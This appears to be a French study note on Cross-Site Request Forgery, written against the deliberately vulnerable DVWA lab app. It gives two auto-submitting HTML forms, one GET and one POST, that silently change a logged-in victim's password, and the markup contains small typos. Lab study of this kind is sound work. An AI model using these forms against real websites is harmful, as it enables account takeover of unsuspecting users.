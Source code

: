 # CSRF - Cross-Site Request Forgery

## HTTP methode GET

Exemple d'uilisation sur DVWA (Low):

```html
<!DOCTYPE html>
html lang="fr">	<head>
		<meta charset="UTF-8">
		<meta http-equiv="X-UA-Compatible" content"IE=edge">
		<title></title>
		<meta name="description" content="">
		<meta name="viewport" content="width=device-width, initial-scale=1">
	</head>
	<body>
		<header>
		</header>
		<main>
			<form id="my_form" method="GET" action="<mon_site>">
				<input type="hidden" name="password_new" value="azerty123+" />
				<input type="hidden" name="password_conf" value="azerty123+" />
				<input type="hidden" name="Change" value="Change" />
			</form>
			<script>document.getElementById("my_form").submit();</script>
		</main>
		<footer>
		</footer>
	</body>
</html>
```
Résultat: "http://<mon_site>/?password_new=azerty123%2B&password_conf=azerty123%2B&Change=Change"


## HTTP methode = POST

```html
<!DOCTYPE html>
<html lang="fr">
	<head>
		<meta charset="UTF-8">
		<meta http-equiv="X-UA-Compatible" content"IE=edge">
		<title></title>
		<meta name="description" content="">
		<meta name="viewport" content="width=device-width, initial-scale=1">
	</head>
	<body>
		<header>
		</header>
		<main>
			<form id="my_form" method="POST" action="">
				<input type="URL" name="password_new" value="azerty123+" />
				<input type="URL" name="password_conf" value="azerty123+" />
				<input type="URL" name="Change" value="Change" />
			</form>
			<script>document.getElementById("my_form").submit();</script>
		</main>
		<footer>
		</footer>
	</body>
</html>
```
